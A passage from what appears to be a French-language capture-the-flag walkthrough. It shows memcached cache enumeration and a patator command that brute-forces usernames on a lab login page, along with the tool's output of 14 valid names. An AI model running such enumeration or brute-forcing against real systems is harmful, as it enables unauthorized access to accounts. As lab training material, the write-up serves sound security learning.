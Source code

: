 ```plain
STAT items:26:expired_unfetched 0
STAT items:26:evicted_unfetched 0
STAT items:26:crawler_reclaimed 0
STAT items:26:crawler_items_checked 0
STAT items:26:lrutail_reflocked 0
END
```

Avec les commandes *stats cachedump 16 0* et *stats cachedump 26 0* on obtient respectivement les noms de clés *stock* et *users*.  

Malheureusement les commandes *get users* et *get stock* ne semblaient rien remonter (juste *END* qui signifie que les clés sont vides).  

J'ai donc décidé de revenir sur le port 80 pour brute-forcer les noms d'utilisateurs possibles :  

```plain
$ patator http_fuzz url='http://10.10.10.86/login' method=POST body='username=FILE0&password=nawak&submit=Login' 0=top500.txt -x ignore:clen=543
15:26:03 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-12 15:26 CET
15:26:03 patator    INFO -
15:26:03 patator    INFO - code size:clen       time | candidate                          |   num | mesg
15:26:03 patator    INFO - -----------------------------------------------------------------------------
15:26:03 patator    INFO - 200  714:542        0.045 | angela                             |    51 | HTTP/1.1 200 OK
15:26:04 patator    INFO - 200  714:542        0.077 | dallas                             |   152 | HTTP/1.1 200 OK
15:26:04 patator    INFO - 200  714:542        0.056 | florida                            |   188 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.070 | london                             |   278 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.055 | nicholas                           |   329 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.057 | nicole                             |   330 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.051 | paris                              |   339 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.041 | princess                           |   360 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.066 | sammy                              |   389 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.049 | samson                             |   390 | HTTP/1.1 200 OK
15:26:05 patator    INFO - 200  714:542        0.042 | sierra                             |   405 | HTTP/1.1 200 OK
15:26:06 patator    INFO - 200  714:542        0.055 | summer                             |   431 | HTTP/1.1 200 OK
15:26:06 patator    INFO - 200  714:542        0.059 | thomas                             |   446 | HTTP/1.1 200 OK
15:26:06 patator    INFO - 200  714:542        0.044 | winston                            |   481 | HTTP/1.1 200 OK
15:26:06 patator    INFO - Hits/Done/Skip/Fail/Size: 14/499/0/0/499, Avg: 150 r/s, Time: 0h 0m 3s
```
